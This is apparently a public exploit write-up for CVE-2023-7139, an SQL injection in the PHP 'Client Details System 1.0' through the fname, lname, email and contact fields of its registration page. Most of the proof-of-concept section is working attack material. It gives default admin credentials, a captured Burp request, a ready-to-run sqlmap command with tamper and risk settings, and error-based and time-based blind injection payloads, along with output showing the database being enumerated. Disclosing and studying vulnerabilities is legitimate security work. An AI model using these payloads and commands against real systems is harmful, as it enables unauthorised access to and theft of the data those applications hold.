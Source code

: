 # CVE-2023-7139_Client_Details_System-SQL_Injection_3
+ **Exploit Title:** CVE-2023-7139_Client_Details_System-SQL_Injection_3
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7139

## References: 
+ **CVE-2023-7139:** https://vuldb.com/?id.249142
+ https://www.cve.org/CVERecord?id=CVE-2023-7139
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7139
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7139

## Description:
Client Details System 1.0 allows SQL Injection via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Create Users and Register New User: "http://localhost/clientdetails/admin/regester.php"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/admin/regester.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 812
Content-Type: multipart/form-data; boundary=3b3b38b05bde466ba84fe94108a576e4
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/regester.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--

```

+ Use sqlmap to exploit. In sqlmap, use sequencely 'fname', 'lname', 'email' and 'contact' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p fname --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART fname ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: --3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test'||(SELECT 0x63477861 WHERE 3950=3950 AND (SELECT 4777 FROM(SELECT COUNT(*),CONCAT(0x717a7a7071,(SELECT (ELT(4777=4777,1))),0x71767a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: --3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test'||(SELECT 0x495a4858 WHERE 5047=5047 AND (SELECT 3063 FROM (SELECT(SLEEP(5)))fSuo))||'
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--
---
[17:19:33] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:19:34] [INFO] fetching current database
[17:19:34] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/ae5ce05b-ed9f-4e6b-a137-4b19fdf07850)
